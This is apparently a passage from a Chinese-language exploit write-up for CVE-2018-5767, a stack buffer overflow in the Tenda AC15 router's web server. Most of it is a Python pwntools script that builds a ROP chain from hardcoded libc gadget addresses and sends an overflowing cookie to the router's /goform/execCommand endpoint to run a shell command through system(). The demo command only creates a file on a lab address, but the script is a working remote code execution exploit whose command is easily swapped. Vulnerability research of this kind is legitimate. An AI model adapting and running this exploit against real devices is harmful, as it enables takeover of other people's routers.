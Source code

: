 ![%E6%A0%88%E6%BA%A2%E5%87%BAcve-2018-5767(AC15)/Untitled%2018.png](%E6%A0%88%E6%BA%A2%E5%87%BAcve-2018-5767(AC15)/Untitled%2018.png)

以及一个调用system的exp

```python
import requests
from pwn import *
context.binary = "squashfs-root/bin/httpd"
# context. log_level = "debug"

libc = ELF( "squashfs-root/lib/libc.so.0")
system_offset = libc.symbols["system"]
libc_base_addr = 0xf65e5000
pop_r3_pc = libc_base_addr + 0x00018298
mov_r0_sp_blx_r3 = libc_base_addr +0x00040cb8
system_addr = libc_base_addr +system_offset

ip  = "192.168.129.131"
url = "http://%s/goform/execCommand"%ip
cookie ={"Cookir":"password="+cyclic(444)+".gif"+flat(pop_r3_pc,system_addr,mov_r0_sp_blx_r3)+ "touch aaaa"}

ret = requests.get(url=url ,cookies=cookie)
print(ret.text)
```